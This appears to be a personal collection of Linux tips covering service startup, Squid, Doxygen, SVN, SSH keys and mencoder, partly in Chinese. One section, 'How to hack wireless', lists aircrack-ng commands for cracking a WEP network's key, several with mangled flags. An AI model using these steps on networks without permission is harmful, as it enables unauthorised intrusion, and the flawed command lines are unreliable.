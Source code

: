 .. index::linux tips

******************************************
A collection of my linux tips
******************************************

Setup commands for Service on my desktop
======================================================

- vsftpd: 

.. code-block:: none

    sudo /etc/rc.d/vsftpd start

- mysqld:

.. code-block:: none

    sudo /etc/rc.d/mysqld start

- apache

.. code-block:: none

    sudo apachectl start

- squid::

    sudo squid
    sudo squid -k reconfigure 

- Starting Squid

After you've finished editing the configuration file, you can start Squid for the first time. First, you must create the swap directories. Do this by running Squid with the -z option::

/usr/local/squid/sbin/squid -z

Once that completes, you can start Squid and try it out. Probably the best thing to do is run it from your terminal and watch the debugging output. Use this command::

/usr/local/squid/sbin/squid -NCd1

If everything is working fine, then your console displays: "Ready to serve requests".

If you want to run squid in the background, as a daemon process::

/usr/local/squid/sbin/squid

You should be a privileged user to start/stop squid..


- goagent

.. code-block:: none

    goagent start

- gappproxy

.. code-block:: none

    gapproxy start



Ubuntu tips
=====================

- Delete the ubuntu 11.04 file usage history::

    rm ~/.local/share/zeitgeist/activity.sqlite
    zeitgeist-daemon --replace

Archlinux tips
=====================
- `Disable_PC_Speaker_Beep <https://wiki.archlinux.org/index.php/Disable_PC_Speaker_Beep#In_console>`_ ::

    xset -b

- If you want to auto start some service like

  1. squid
  #. vsftp
  #. apache
  #. mysqld

  Just put it into rc.conf as below::

    DAEMONS=(squid vsftpd httpd mysqld sshd hwclock syslog-ng network netfs crond dbus kdm cupsd)


Squid Tips
========================

Set Reverse proxy
--------------------------
Add the following lines to squid.conf::
    
    #Reverse
    http_port <local ip>:80 accel defaultsite=www.cnmath.org
    
    cache_peer <ip.of.webserver1> parent 80 0 no-query originserver name=server_2
    acl sites_server_2 dstdomain <domain.for.webserver1>
    cache_peer_access server_2 allow all
    
    cache_peer <ip.of.webserver2> parent 80 0 no-query originserver name=server_1
    acl sites_server_1 dstdomain <domain.for.webserver2>
    cache_peer_access server_1 allow all
    


Little softwares
==========================


I. `menumaker <http://menumaker.sourceforge.net/>`_ for IceWM:

.. code-block:: none

    mmaker IceWM

.. _doxygen:


.. index:: doxygen

Doxygen
====================

- Chinese Guide of Doxygen for `chm <http://www.fmddlmyy.cn/text21.html>`_
- Chinese `Manual of Doxygen <http://cpp.ezbty.org/content/science_doc/doxygen%E4%B8%AD%E6%96%87%E6%96%87%E6%A1%A3>`_

Use Chinse in Doxygen Latex:
-----------------------------------
  1. set LANGUAGE in Doxyfile as Chinese

  #. add xeCJK settings at the very previous lines of "\\begin{document}"::
  
       \usepackage{xeCJK}
       \setCJKmainfont{AR PL UKai CN}
       \begin{document}

     Or use my package `berserk.sty <ftp://lab.yeshiwei.com/tex/berserk.sty>`_ , put it into the direcotry, and::
  
       \usepackage{berserk}
       \begin{document}

  #. finally edit the Makefile change "pdflatex" to "xelatex".

Emacs tips
================

doxymacs
-----------------------

Active it and set the user email in .emacs::

    (require 'doxymacs)
    (setq-default user-mail-address "...")
    
auto-complete
------------------------

http://cx4a.org/software/auto-complete/#Downloads

无法打开ibus输入法的问题
----------------------------

通过把 LC_CTYPE 设置为 zh_CN 才可以在 Emacs 里使用输入法，例如，可以通过如下方式启动 Emacs ：

LC_CTYPE=zh_CN.utf8 emacs

http://blog.pluskid.org/?p=328

TexLive Tips
==================

- Solve::

    Error: Missing language pack for 'Adobe-GB1' mapping

with::

    apt-get install poppler-data

- `xelatex template </doc.tar.gz>`_ （中文模板）
 


SVN
==================================================

`Setup a Subversion Server in 4 Minutes <http://www.tonyspencer.com/2007/03/02/setup-a-subversion-server-in-4-minutes/>`_

You are going to need to type fast but I think you can do it in 4 minutes.   These are my notes on what worked for me on my Fedora core 6 with svn lib already installed by the package manager:

Create a Repository
--------------------------------------------------

svnadmin create /svnrepos

Create a SVN User
--------------------------------------------------
::

 vi /svnrepos/conf/svnserve.conf

In that file add these three lines::

 anon-access = none
 auth-access = write
 password-db = passwd

Create a password file::

 vi /svnrepos/conf/passwd

In that file add a line for your user::

 # add users in the format : user = password
 tony = mypassword

Import Your Project
--------------------------------------------------

(assuming you’ve put your project files in /projects/myrailsproject)::

 svn import /projects/myrailsproject file:///svnrepos/myrailsproject

Start the SVN Server as Daemon
----------------------------------------------------------------------------------------------------
::

 svnserve -d

Done! You should now have a svn server running with one project named myrailsproject.

Try checking it out of the repository::

 svn co svn://192.168.0.2/svnrepos/myyrailsproject

Since we set anon-access to none you should be prompted for username and password which you created in the file /svnrepos/conf/passwd.

文档查看器（Evince）打开中文PDF显示方块的问题
====================================================================================

使用Evince打开部分pdf文件，特别是中国知网上下载的pdf论文时，常常显示为方块。
evince,okular, epdfview的pdf功能均由xpdf的分支poppler提供。poppler官方网站：http://poppler.freedesktop.org

必须先安装poppler-data::
 
 sudo apt-get install poppler-data

如果已经安装了文泉驿正黑字体，使用下面的方法解决显示方块问题::

 sudo gedit  /etc/fonts/conf.d/49-sansserif.conf

将倒数第四行的sans-serif修改为WenQuanYi Zen Hei就可以了。 

修改为其他的中文字体名称应该也是可以的。

设置 SSH 不用密码登录另一台电脑
============================================================

Your aim
---------------------------

You want to use Linux and OpenSSH to automize your tasks. Therefore you need an automatic login from host A / user a to Host B / user b. You don't want to enter any passwords, because you want to call ssh from a within a shell script.

How to do it
--------------------------

First log in on A as user a and generate a pair of authentication keys. Do not enter a passphrase::

 a@A:~> ssh-keygen -t rsa
 Generating public/private rsa key pair.
 Enter file in which to save the key (/home/a/.ssh/id_rsa): 
 Created directory '/home/a/.ssh'.
 Enter passphrase (empty for no passphrase): 
 Enter same passphrase again: 
 Your identification has been saved in /home/a/.ssh/id_rsa.
 Your public key has been saved in /home/a/.ssh/id_rsa.pub.
 The key fingerprint is:
 3e:4f:05:79:3a:9f:96:7c:3b:ad:e9:58:37:bc:37:e4 a@A

Now use ssh to create a directory ~/.ssh as user b on B. (The directory may already exist, which is fine)::

 a@A:~> ssh b@B mkdir -p .ssh
 b@B's password: 

Finally append a's new public key to b@B:.ssh/authorized_keys and enter b's password one last time::

 a@A:~> cat .ssh/id_rsa.pub | ssh b@B 'cat >> .ssh/authorized_keys'
 b@B's password: 

From now on you can log into B as b from A as a without password::

 a@A:~> ssh b@B hostname
 B

A note from one of our readers: Depending on your version of SSH you might also have to do the following changes::

 Put the public key in .ssh/authorized_keys2
 Change the permissions of .ssh to 700
 Change the permissions of .ssh/authorized_keys2 to 640

How to hack wireless
==========================

WEBSITES:
http://www.backtrack-linux.org
http://www.imgburn.com

TERMINAL COMMANDS::
 
 Startx
 /etc/init.d/networking start
 airmon-ng
 airmon-ng stop [wireless card name]
 airmon-ng start [wireless card name]
 airmon-ng
 airodump-ng [wireless card name]
 ctrl c
 airodump-ng w wep c [channel number] bssid [Bssid number] [wireless card name]
 aireplay-ng -1 0 a [bssid] [wireless card name]
 aireplay-ng -3 b [bssid][wireless card name]
 ctrl + c
 dir
 aircrack-ng [filename]

Extract audio from video
=================================================

假如在欣赏电影过程中出现了一段美妙的插曲（特别是印度电影，一般都会有很多歌舞片段），很多时候我们都想将其截取下来并作为mp3格式保存！利用mencoder可以很容易的实现这一愿望::

 mencoder -o out.mp3 -ovc frameno -oac mp3lame -lameopts cbr:br=128 -of rawaudio -ss 1:30 -endpos 2:45 test.rmvb

在实际操作中，用户需要更改的就是那两个时间参数值了！该命令参数的详细说明如下::

 -o out.mp3 输出的目标文件名称
 -ovc frameno 不处理视频编码
 -oac mp3lame 输出的音频编码格式为mp3
 -lameopts cbr:br=128 音频附件选项，cbr(常量比特率)编码格式，音频码流为128bps(对于mp3来说，128已经足够了)
 -of rawaudio 输出文件为原始音频流
 -ss 1:30 音频截取的起始时间(表示从影片的第1分30秒开始截取)
 -endpos 2:45 预截取音频的长度(表示预截取的音频长度是2分45秒，那么可以计算出其结束时间是4:15)
 test.rmvb 输入源文件

举个简单例子：如果想截取影片中1:28:10~1:30:25这段时间的音频，则 -ss参数的值应该是88:10(1小时28分等于88分)，-endpos参数的值应该是2:15(就是上面两个时间段的差值了)，然后将实际参数值代入上面命令即可！

上面的示例选用的输入源文件是rmvb格式，当然了，像avi、mp4等格式的多媒体文件肯定也是可行的！

上面展示的仅是提取音频，如果想保存为MTV，那就更简单了：
对于rmvb文件：mencoder -o mtv.avi -ovc lavc -oac mp3lame -ss 1:30 -endpos 2:45 test.rmvb
对于 avi 文件：mencoder -o mtv.avi -ovc copy -oac copy -ss 1:30 -endpos 2:45 test.rmvb

-ss参数使用参考示例::

 -ss 10 从10秒开始
 -ss 10:10 从10分10秒开始
 -ss 1:10:10 从1小时10分10秒开始

-endpos参数使用参考示例::

 -endpos 10 编码的时间为10秒
 -endpos 10:10 编码的时间为10分10秒
 -endpos 1:10:10 编码的时间为1小时10分10秒
 -endpos 10mb 编码数据量为10M
